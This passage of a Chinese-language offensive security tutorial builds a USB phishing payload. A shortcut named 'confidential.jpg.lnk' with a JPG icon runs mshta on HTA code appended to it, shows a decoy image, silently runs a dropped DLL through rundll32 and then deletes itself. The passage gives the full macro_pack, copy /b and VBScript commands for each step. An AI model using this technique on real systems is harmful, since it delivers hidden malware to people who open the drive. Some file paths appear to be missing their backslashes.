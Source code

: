 现在`payload.hta`文件会释放并运行图片，然后运行DLL并在运行后删除自身文件。

> 注意：如果我们想要多次使用同一个USB介质，我们需要去掉自删除代码，将图片释放到临时目录中，而非当前目录中。

### <a class="reference-link" name="%E6%9E%84%E5%BB%BA%E6%81%B6%E6%84%8FLNK%E6%96%87%E4%BB%B6"></a>构建恶意LNK文件

我们可以利用HTA文件的便捷性，将其嵌入到LNK文件中。由于我们的LNK文件名为`confidential.jpg.lnk`，我们希望它能顺利运行如下命令：

```
%windir%system32cmd.exe /c start "" "mshta" "%CD%confidential.jpg.lnk"
```

> 注意：我们在构造USB载荷时，遇到的一个难题是载荷需要知道自己所处的具体路径。这个例子中，我们依赖的是`macro_pack`，它可以配置LNK文件运行在当前目录中，这样一来`%cd%`命令就能给出当前的卷名及路径。在第二个PoC中我们可以看到更为困难的一种场景。

我们可以使用`macro_pack`来生成LNK。我选择直接将快捷方式生成到USB介质中，避免我们拷贝快捷方式时系统对其做出修改。这里USB介质的卷标为“G:”。

```
macro_pack.exe -G G:confidential.jpg.lnk
```

当提示输入“Shortcut_Target”时我们输入如下信息：

```
%windir%system32cmd.exe /c start "" "mshta" "%CD%confidential.jpg.lnk"
```

当提示输入“Shortcut_Icon”时我们输入如下信息：

```
%windir%system32imageres.dll,67
```

> 注意：67这个数字对应的是`imageres.dll`中的JPG图像。

[![](https://p0.ssl.qhimg.com/t011b1e25965b69c3f6.png)](https://p0.ssl.qhimg.com/t011b1e25965b69c3f6.png)

现在LNK快捷方式已创建完毕，我们可以将HTA代码附加到该文件中。

```
copy /b G:confidential.jpg.lnk+cmd.hta G:confidential.jpg.lnk
```

就这么简单，我们的钓鱼载荷已构造完毕。

### <a class="reference-link" name="%E6%B5%8B%E8%AF%95"></a>测试

将`confidential.jpg.lnk`拷贝到某个USB介质中，并将该介质插入另一个Windows主机上。访问U盘并双击`confidential.jpg`，系统会向我们显示对应的图片。

DLL已被成功加载，但处于隐藏状态，我们可以使用`taskmgr`或者Sysinternals的`procexp`观察正在运行的DLL。DLL文件被释放到临时目录中的“Document1.asd”，并使用如下VB代码加以运行。

```
CreateObject("WScript.Shell").Run "%windir%system32rundll32.exe %temp%Document1.asd,&lt;&lt;&lt;DLL_FUNCTION&gt;&gt;&gt;", 0
```

顺利执行后，我们会发现U盘上LNK文件已不复存在，被替换成正确的图片文件。
